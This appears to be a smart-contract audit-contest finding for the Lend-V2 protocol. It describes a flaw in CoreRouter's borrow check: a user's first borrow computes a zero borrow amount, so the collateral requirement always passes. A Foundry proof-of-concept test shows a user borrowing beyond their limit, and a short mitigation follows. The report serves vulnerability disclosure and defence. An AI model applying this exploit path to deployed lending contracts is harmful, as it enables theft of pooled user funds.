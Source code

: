 Bright Cyan Cyborg

High

# Everyone can borrow more than the allowed borrow amount

### Summary

The wrong way of calculating the borrowing amount allsow users to borrow more than expected.

### Root Cause

When the borrow amount is calculated, it is multiplied by the current index and divided by the user's stored borrow index.

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L157
```solidity
        // borrowed = existing borrow amount + new amount
        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

        LendStorage.BorrowMarketState memory currentBorrow = lendStorage.getBorrowBalance(msg.sender, _lToken);

        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;

```

When the user borrows for the first time,`currentBorrow.borrowIndex` will be equal to 0, which means that `borrowAmount` will also be 0.

The only requirement to allow borrowing is checked by:

```solidity
require(collateral >= borrowAmount, "Insufficient collateral");
```

In this scenario, the condition will always be true, since `borrowAmount` is zero.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

The user only needs to provide collateral in order to borrow.

### Impact

Everyone can borrow more than the allowed borrow amount

### PoC

Add this test in `TestBorrowing.t.sol` file.

```solidity
    // forge test -vvv --test_borrow_more_than_expected
    function test_borrow_more_than_expected() public {
        uint256 supplyAmount = 100_000e18;

        // Add initial supply from Deployer
        vm.startPrank(deployer);
        (address token,) = _supply(supplyAmount);
        vm.stopPrank();


        address user = makeAddr("user");
        uint256 userAmount = supplyAmount / 2;
        
        // User add 50_000e18 supply and borrow
        vm.startPrank(user);

        token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);
        ERC20Mock(token).mint(user, userAmount);
        IERC20(token).approve(address(coreRouter), userAmount);
        
        // Total Supply = 150_000e18
        coreRouter.supply(userAmount, token);

        // Get initial balances
        uint256 initialTokenBalance = IERC20(token).balanceOf(user);
        uint256 maxBorrow = 90_000e18;

        console.log("Tokens balance before borrow:");
        console.log(initialTokenBalance);

        // Expect BorrowSuccess event
        vm.expectEmit(true, true, true, true);
        emit BorrowSuccess(user, lToken, maxBorrow);

        // Borrow tokens
        coreRouter.borrow(maxBorrow, token);

        // Verify balances after borrowing
        assertEq(
            IERC20(token).balanceOf(user) - initialTokenBalance,
            maxBorrow,
            "Should receive correct amount of borrowed tokens"
        );

        // Verify borrow balance is tracked correctly
        assertEq(
            lendStorage.borrowWithInterestSame(user, lToken),
            maxBorrow,
            "Borrow balance should be tracked correctly"
        );

        vm.stopPrank();

        console.log("Borrowed tokens:");
        console.log(IERC20(token).balanceOf(user));

    }
```

### Mitigation

Do not allow the user to borrow more than expected. Ensure that the `borrowAmount` is correctly calculated.